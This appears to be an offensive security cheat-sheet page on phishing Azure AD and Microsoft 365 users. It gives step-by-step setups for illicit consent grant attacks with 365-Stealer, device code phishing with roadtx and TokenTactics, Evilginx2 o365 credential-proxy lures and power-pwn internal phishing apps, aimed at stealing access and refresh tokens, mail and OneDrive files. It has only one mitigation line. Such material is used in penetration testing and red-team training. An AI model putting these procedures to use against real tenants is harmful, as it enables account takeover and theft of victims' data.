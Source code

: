 # Azure AD - Phishing

## Illicit Consent Grant

> The attacker creates an Azure-registered application that requests access to data such as contact information, email, or documents. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to. 

Check if users are allowed to consent to apps: `PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`

* **Disable user consent** : Users cannot grant permissions to applications.   
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select** : All users can only consent to apps that were published by a verified publisher and apps that are registered in your tenant    
* **Users can consent to all apps** : allows all users to consent to any permission which doesn't require admin consent.    
* **Custom app consent policy**   

### Register Application

1. Login to https://portal.azure.com > Azure Active Directory
2. Click on **App registrations** > **New registration**
3. Enter the Name for our application
4. Under support account types select **"Accounts in any organizational directory (Any Azure AD directory - Multitenant)"**
5. Enter the Redirect URL. This URL should be pointed towards our 365-Stealer application that we will host for hosting our phishing page. Make sure the endpoint is `https://<DOMAIN/IP>:<PORT>/login/authorized`.
6. Click **Register** and save the **Application ID**

### Configure Application

1. Click on `Certificates & secrets`
2. Click on `New client secret` then enter the **Description** and click on **Add**.
3. Save the **secret**'s value.
4. Click on API permissions > Add a permission
5. Click on Microsoft Graph > **Delegated permissions**
6. Search and select the below mentioned permissions and click on Add permission
    * Contacts.Read 
    * Mail.Read / Mail.ReadWrite
    * Mail.Send
    * Notes.Read.All
    * Mailboxsettings.ReadWrite
    * Files.ReadWrite.All 
    * User.ReadBasic.All
    * User.Read

### Setup 365-Stealer (Deprecated)

:warning: Default port for 365-Stealer phishing is 443

- Run XAMPP and start Apache
- Clone 365-Stealer into `C:\xampp\htdocs\`
    * `git clone https://github.com/AlteredSecurity/365-Stealer.git`
- Install the requirements
    * Python3
    * PHP CLI or Xampp server
    * `pip install -r requirements.txt`
- Enable sqlite3 (Xampp > Apache config > php.ini) and restart Apache
- Edit `C:/xampp/htdocs/yourvictims/index.php` if needed
    - Disable IP whitelisting `$enableIpWhiteList = false;`
- Go to 365-Stealer Management portal > Configuration (http://localhost:82/365-stealer/yourVictims)
    - **Client Id** (Mandatory): This will be the Application(Client) Id of the application that we registered.
    - **Client Secret** (Mandatory): Secret value from the Certificates & secrets tab that we created.
    - **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized` 
    - **Macros Location**: Path of macro file that we want to inject.
    - **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc. 
    - **Delay**: Delay the request by specifying time in seconds while stealing
- Create a Self Signed Certificate to use HTTPS
- Run the application either click on the button or run this command : `python 365-Stealer.py --run-app`
    - `--no-ssl`: disable HTTPS
    - `--port`: change the default listening port
    - `--token`: provide a specific token
    - `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
- Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.

### Vajra

> Vajra is a UI-based tool with multiple techniques for attacking and enumerating in the target's Azure environment. It features an intuitive web-based user interface built with the Python Flask module for a better user experience. The primary focus of this tool is to have different attacking techniques all at one place with web UI interfaces. - https://github.com/TROUBLE-1/Vajra

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".

### Roadtx

* Use the authorization code flow in roadtx to get token
```ps1
roadtx codeauth -c <app-id> -r msgraph -t <tenant-id> <0.A....> -ru 'https://<phish-app>/redir' -p <app-secret>
```


## Device Code Phishing

* Using roadtool: `roadtx gettokens -u user@domain.lab --device-code`
    ```ps1
    roadtx.exe auth --device-code -c 29d9ed98-a469-4536-ade2-f981bc1d605e
    Requesting token for resource https://graph.windows.net
    To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code XXXXXXXXX to authenticate.
    ```

* Using TokenTactics to request a token for Azure Graph API using a device code
    ```ps1
    Import-Module .\TokenTactics.psd1
    Get-AzureToken -Client Graph
    ```
* Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
* Leave TokenTactics running in the PowerShell window and send the phishing email
* Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
* Enjoy your **access token** and **refresh token**


## Phishing with Evilginx2

* Run [kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) with o365 phishlet
    ```powershell
    PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
    : config domain username.corp
    : config ip 10.10.10.10
    : phishlets hostname o365 login.username.corp
    : phishlets get-hosts o365
    ```
* Create a DNS entry type A for `login.login.username.corp` and `www.login.username.corp`, pointing to your machine
* Copy certificate and enable the phishing
    ```ps1
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
    : phishlets enable o365

    # get the phishing URL
    : lures create o365
    : lures get-url 0
    ```


### Internal Phishing - Power Platform

> Set up an internal phishing application on a Microsoft-owned domains which will automatically authenticate as users browse to your link.


* Install [mbrg/power-pwn](https://github.com/mbrg/power-pwn) - An offensive and defensive security toolset for Microsoft 365 Power Platform
    ```ps1
    pip install powerpwn
    ```
* Install the application: `powerpwn phishing install-app -t {tenant-id} -e {environment-id} --input {path to application package zip} -n {application name}`
* Share application with org: `powerpwn phishing share-app -t {tenant-id} -e {environment-id} -a {app id}`


## References

* [Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [Learn with @trouble1_raunak: Cloud Pentesting - Azure (Illicit Consent Grant Attack) - trouble1_raunak - Jun 6, 2021](https://www.youtube.com/watch?v=51FSvndgddk&list=WL)
* [The Art of the Device Code Phish - Bobby Cooke - July 12, 2021](https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html)
* [Power Pwn - Black Hat Arsenal 2023 - Aug 24, 2023](https://www.youtube.com/watch?v=LpdckZyBwvs)
* [Low Code High Risk - Enterprise Domination via Low Code Abuse - Defcon 30 - Oct 20, 2022](https://www.youtube.com/watch?v=D3A62Rzozq4)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)